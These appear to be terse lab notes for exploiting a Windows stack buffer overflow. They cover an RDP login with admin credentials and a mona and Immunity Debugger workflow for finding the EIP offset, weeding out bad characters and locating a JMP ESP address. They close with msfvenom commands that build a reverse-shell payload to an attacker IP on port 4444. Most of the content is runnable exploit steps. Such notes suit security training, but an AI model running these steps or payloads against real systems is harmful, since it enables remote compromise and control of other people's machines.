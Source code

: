 '''
xfreerdp /u:admin /p:password /cert:ignore /v:10.10.83.194 /workarea  
'''

```
!mona config -set workingfolder c:\mona\%p
/opt/metasploit-framework/embedded/framework/tools/exploit/pattern_create.rb -l 1500
!mona findmsp -distance 1500
EIP: 1034
#Update EIP to all scripts

!mona bytearray -b "\x00"

1. Send data with NULL
2. Take ESP OUT and put into COMPARE. 

## Don't forget extending the windows to right on BadChars. 
# !mona compare -f C:\mona\oscp\bytearray.bin -a 01A0FA30
!mona compare -f C:\mona\oscp\bytearray.bin -a 000000

#python bytearray.py
# Send updated Removed Bad Char buffer to target
!mona bytearray -b "\x00\x08\x2c\xad"

# Update Offset on Python
"\\x00\\x16\\x2f\\xf4\\xfd"

# Verify with new ESP on Immunity Debugger

!mona jmp -r esp -cpb "\x00\x08\x2c\xad"
!mona bytearray -b "\x00"

JMP ESP: "\xaf\x11\x50\x62"

msfvenom -p windows/shell_reverse_tcp LHOST=10.6.20.231 LPORT=4444 EXITFUNC=thread -b "\x00\x08\x2c\xad" -f py

!mona config -set workingfolder c:\mona\%p

/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
!mona findmsp -distance 600!mona bytearray -b "\x00"
!mona compare -f C:\mona\oscp\bytearray.bin -a <address>
!mona jmp -r esp -cpb "\x00"
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f py
!mona config -set workingfolder c:\mona\%p
```
![image](https://user-images.githubusercontent.com/9059079/119589298-85138c80-bda0-11eb-825d-862e4f241a10.png)

![image](https://user-images.githubusercontent.com/9059079/119571250-1d991500-bd7f-11eb-9cb0-ca9bd73dc2f7.png)
